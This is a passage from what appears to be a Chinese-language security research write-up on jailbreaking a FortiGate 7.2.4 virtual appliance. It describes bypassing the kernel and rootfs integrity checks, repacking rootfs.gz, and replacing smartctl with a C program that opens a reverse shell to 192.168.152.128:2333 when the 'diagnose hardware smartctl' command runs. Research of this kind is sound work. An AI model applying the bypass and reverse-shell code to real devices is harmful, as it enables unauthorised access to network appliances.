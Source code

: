 ![bin-init-main](/img/FortiGate-Setup-7.2.4/bin-init-main.png)

在`verifyKernelAndRootfs_450510()`的地方会验证`flatkc`和`rootfs`文件目录的结果

## 绕过

### 思路

最开始想的是，直接利用重打包`rootfs.gz`（注：这里`/dev/sda1`比较小，需要放到外面再重打包），调试虚拟机内核时修改`flatkc`中的指向`/sbin/init`的字符串为`/sh`，从而直接执行`busybox`的`sh`，结果不成功，可能是`/bin/init`中对于一些设备进行了初始化

于是还是得按照别人博客中的思路，重打包`rootfs.gz`，自己实现`/sbin/init`干的事情即解压文件，并把`/bin/busybox`丢进去；在调试内核的时候，修改`flatkc`的校验，使其不`panic`且修改其指向的字符串为`/bin/init`；执行`/bin/init`时修改验证的返回值，使其正常过检测

在重打包`rootfs.gz`的时候，修改`rootfs`中的`smartctl`的逻辑，通过 [reverse_shell](https://github.com/leommxj/prebuilt-multiarch-bin/blob/bin/x86_64_tools/reverse_shell) 反弹`shell`，然后通过`diagnose hardware smartctl`指令进行执行`smartctl`

```c
// gcc ./smartctl.c -static -o ./smartctl
#include <stdio.h>

void shell(){
    system("/bin/busybox ls", 0, 0);
    system("/bin/busybox id", 0, 0);
    system("/bin/reverse_shell 192.168.152.128 2333 && /bin/busybox id", 0, 0);
    return;
}

int main(int argc, char const *argv[])
{
    shell();
    return 0;
}
```
